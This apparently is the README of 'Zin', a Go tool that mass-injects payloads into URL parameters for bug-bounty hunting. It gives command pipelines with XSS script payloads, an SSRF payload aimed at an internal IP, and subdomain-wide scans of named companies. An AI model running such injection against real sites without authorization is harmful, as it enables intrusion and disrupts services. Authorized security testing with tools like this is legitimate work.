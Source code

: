 ![alt text](https://upload.wikimedia.org/wikipedia/commons/9/9a/Filled_Syringe_icon.svg)
##### Version 1.0

# Zin
**A Payload Injector for bugbounties written in go**



[![Image from Gyazo](https://i.gyazo.com/16031ae21e5b98c9c936de492be4cccf.gif)](https://gyazo.com/16031ae21e5b98c9c936de492be4cccf)

### Features

- Inject multiple payloads into all parameters
- Inject single payloads into all parameters
- Saves responses into output folder
- Displays Status Code & Response Length
- Can grep for patterns in the response
- Really fast
- Easy to setup


### New Features
- Pattern Matching in responses
- Match Status Codes

### Arguments
```
      _
     (_)
  _____ _ __
 |_  / | '_ \
  / /| | | | |
 /___|_|_| |_|


May the bounties come


  -c int
        the concurrency (default 20)
  -g string
        grep the response for any matches
  -p string
        the payload to be used
  -pL string
        the list of payloads to be used
  -s int
        filter by status codes (default 200)
        
```


### Install

`$ git clone https://github.com/ethicalhackingplayground/Zin && cd Zin && go build`



##### SSRF Example
`$ subfinder uber.com | gau | grep "=http" | ./Zin -c 80 -p http://10.82.214.84:31386/foobar.js -g "SUP3R_S3cret_1337_K3y"`

##### XSS Example

`$ subfinder uber.com | gau| ./Zin -c 80 -p '"><script>alert(matchforthis)script>' -g "matchforthis"`


##### Inject Multiple Payloads
`$ cat hosts | gau | grep "&" | ./Zin -c 80 -pL <payloadfile>`

##### Subdomain Scanning

`$ subfinder -dL domains --silent | gau | ./Zin -c 80 -p <payload>`


##### Only Test Parameters

`$ echo "google.com" | gau | grep "&" | ./Zin -c 80 -p '"><script>alert(document.domain)</script<"'`

##### Multiple Hosts

`$ cat hosts | gau | ./Zin -c 80 -p <payload>`

##### Grepping for Patterns

`$ cat output/responses.txt | grep -Hrie "Location: evil.com"`

##### Detecting Process

`$ cat output/responses.txt | grep -Hrie "Location: evil.com"`

`$ cat output/responses.txt | grep -Hrie "<script>alert(document.domain></script>"`

**If you get a bounty please support by buying me a coffee**

<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

